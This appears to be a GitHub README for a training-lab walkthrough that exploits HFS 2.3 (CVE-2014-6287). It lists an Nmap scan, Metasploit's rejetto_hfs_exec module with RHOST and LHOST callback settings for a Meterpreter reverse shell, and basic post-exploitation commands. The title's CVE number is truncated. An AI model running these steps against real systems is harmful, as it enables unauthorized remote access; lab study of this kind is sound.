




# HFS_EXPLOIT_PROJECT
Metasploit RCE on HFS 2.3 - CVE-2014-62

🔖 Title of the Project

    > Remote Code Execution via HTTP File Server (HFS 2.3)

⚙ Tools Used
	• Kali Linux
	• Nmap
	• Metasploit
	• Target: HFS 2.3 on Windows 7

 
🔐 Vulnerability Details
        • Name: CVE-2014-6287
	• Type: Remote Code Execution
	• Cause: Unvalidated input in HFS scripting
	• Impact: Unauthenticated shell access

🔍 Methodology (Step-by-Step)

🔹 Step 1: Information Gathering (Nmap)

	•    nmap -sV demo.ine.local (ip of target) 
	•    open port found : 80
	•    service : rejetto HTTP file server 2.3

## Nmap Scan

  
🔹 Step 2: Exploitation (Metasploit)

	• Msfconsole
	• Search for HFS or rejetto
	• use exploit/windows/http/rejetto_hfs_exec
	• set RHOST 192.168.1.100
	• set RPORT 80
	• set LHOST 192.168.1.101
	• run

## Exploit Setup

    

🔹 Step 3: Post-Exploitation

after run you will get meterpreter session
use command : shell 

• whoami
• ipconfig
• dir

## Shell Access

**

